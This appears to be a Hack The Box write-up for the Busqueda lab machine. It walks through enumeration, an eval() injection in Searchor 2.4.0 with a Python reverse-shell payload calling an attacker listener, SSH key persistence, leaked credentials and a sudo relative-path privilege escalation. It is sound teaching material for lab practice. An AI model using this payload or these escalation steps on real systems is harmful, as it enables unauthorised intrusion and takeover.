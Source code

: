 ```yaml
---
author: Chance Johnson
date: 2023-04-12
description: A relatively easy CTF by kavigihan on Hack The Box.
layout: post
title: Busqueda
---
```

[Busqueda](https://app.hackthebox.com/machines/Busqueda) by [kavigihan](https://app.hackthebox.com/users/389926) on Hack The Box.

# Enumeration
I started with a usual Nmap scan to see what ports are open:
```
sudo nmap -p- --min-rate 5000 10.10.11.208 
```

Output:
```
22/tcp open  ssh
80/tcp open  http
```

Looks like there's an SSH and HTTP server running. Now to check the service versions:
```
sudo nmap -p22,80 -sV 10.10.11.208
```

Output:
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There's an Apache server which I'm assuming is hosting serving web pages. I visited `http://10.10.11.208` in Firefox, however it seemed to be redirecting me to the domain `searcher.htb`. I added the following entry to `/etc/hosts`:
```
10.10.11.208     searcher.htb
```

I reloaded the page in Firefox:
![[Screenshot from 2023-04-13 21-30-01.png]]

It seems to be a web page for the [Searchor](https://github.com/ArjunSharda/Searchor) tool. At the bottom there is a field to enter a search query. I started off with a simple query:
![[Screenshot from 2023-04-13 21-34-34.png]]

After pressing "Search", I was redirected to `http://searcher.htb/search`, which contained the following contents:
![[Screenshot from 2023-04-13 21-37-48 1.png]]

At this point, I wanted to find some more information about Searchor. The website's footer indicates it's running Searchor version 2.4.0. I navigated to the [Searchor 2.4.0 GitHub](https://github.com/ArjunSharda/Searchor/tree/v2.4.0) page and began investigating. 

In the [main.py](https://github.com/ArjunSharda/Searchor/blob/v2.4.0/src/searchor/main.py#L32-L34) file, I noticed something very interesting:
```python
url = eval(
	f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Searchor uses Python's `eval()` function to construct the URL. The `eval()` function in Python allows you to execute Python code from a given string. The web page on this box takes our input and uses it to craft the URL query. If you're nervously sweating right now, that's a good sign! 

Read more about `eval()` [here](Read more about it [here](https://www.codiga.io/blog/python-eval/).

# Foothold
Now it's time to figure out how to exploit this unsafe coding practice to run some arbitrary code. Yay for RCE! I need to figure out a way to escale the `{query}` parameter in the following line:
```python
f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
```

It's surrounded by single quotes, so I started off by simply entering `' f` as my search query. This showed me a blank page, so my guess is that this lead to some kind of error or something like that. This is progress.

Now it's time to get a reverse shell. I started a Netcat listener with `nc -lp 4444` and grabbed a Python reverse shell from [here](revshells.com) and altered it slightly:
```python
',exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'))#
```

I entered this as my search query at the bottom of the `http://searcher.htb` page, and pressed "Search". Now I have a reverse shell.

Before enumerating further, I wanted to establish an SSH connection if possible. I am currently logged in as the user `svc`, so I first created a directory `/home/svc/.ssh` and a new file called `authorized_keys` and added my public SSH key to this file. I then used this key to login: `ssh svc@searcher.htb -i id_rsa`.

# User
The user flag was in `/home/svc/user.txt`.

# Root
Time for some more enumeration. I navigated to `/var/www/app` which seemed to be the root directory for the website. In this directory I found a `.git` directory. In the `.git` directory was a file named `config` which contained the credentials `cody:jh1usoih2bkjaspwe92`. 

I tried the classic `sudo -l` and was prompted for a password. I used the password that I just found, and it worked.

The output told me I was able to run the command `/usr/bin/python3 /opt/scripts/system-checkup.py *` as sudo. 

I executed the following command:
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

The following was printed to the terminal:
```
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

In the original command, I replaced the `*` with `docker-ps`, `docker-inspect` and `full-checkup` and executed each in turn. The first two seemed to execute the commands `docker ps` and `docker inspect` respectively. The last one, `full-checkup`, seemed a bit strange. When I executed the command in the directory `/var/www/app`, it just printed `Something went wrong`. I navigated to `/opt/scripts/` to investigate.

In this directory, I found a file named `full-checkup.sh`. Is this the script that is executed when I use the `full-checkup` option in the original command? While in this directory, I executed the following command:
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

And it worked! I got a lot of output about the Docker containers and some other processes. It looks like this script is being executed relative to the directory in which you execute the command. All that's left to do now is create my own `full-checkup.sh` script.

I navigated back to `/home/svc/` and created a new file named `full-checkup.sh` with the following contents:
```
#!/bin/bash
cat /root/root.txt
```

I set the execute bit with `chmod +x full-checkup.sh` and again executed `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`, and this time it printed out the root flag!